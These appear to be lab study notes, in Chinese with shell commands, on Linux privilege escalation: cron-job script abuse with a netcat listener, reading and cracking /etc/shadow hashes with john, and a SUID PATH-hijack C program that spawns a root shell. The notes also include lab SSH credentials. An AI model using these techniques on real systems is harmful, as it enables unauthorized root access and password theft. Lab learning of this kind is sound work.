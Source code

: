 		--> cron 作業 : 未定義腳本的完整路徑 
			=> cron 將引用 /etc/crontab 檔案中 PATH 變數下列出的路徑
			=> recover 被刪除antivirus.sh : locate antivirus.sh 
							
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> Task : 
			--> ssh karen@10.10.168.255 | Password1
			--> cat /etc/crontab
			--> nano backup.sh 
				--> chmod 777 backup.sh 
				--> sudo nc -nlvp 6666
			--> find  Matt’s password
				--> grep matt /etc/shadow
				--> grep matt /etc/passwd
			--> unshadow passwd shadow | tee Password
				--> john --wordlist=/usr/share/wordlists/rockyou.txt Password		
### PATH
		--> PATH 是一個環境變量 : 告訴作業系統在哪裡搜尋可執行檔
		--> echo $PATH
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		path : 
			--> 為 /bin/bash 的副本授予了可執行權限 ( last=> ./path)
			--> create path_exp.c : 啟動一個名為“thm”的系統二進位文件
			--> 將其編譯為可執行檔並設定 SUID 位元  : call path
				--> gcc path_exp.c -o path -w 
				--> chmod u+s path 
	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		thm : 
			--> find 容易寫入的資料夾
				--> find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u | grep user 
				--> grep -v proc  | grep user 
				
			--> all X寫入 => 加/tmp入 PATH : 
				--> export PATH=/tmp:$PATH
				
			--> 透過將 /bin/bash 作為“thm”複製到 /tmp 資料夾下
				--> cd /tmp	
				--> echo "/bin/bash" > thm
				--> chmod 777 thm
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		path_exp.c : 
			#include<unistd.h>
			void main()
			{ setgid(0);
			  setuid(0);
			  system("thm");
			}
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> Task : 
			--> ssh karen@10.10.138.168 | Password1
			
				--> cd /tmp	
				--> echo "/bin/bash" > thm
				--> chmod 777 thm
				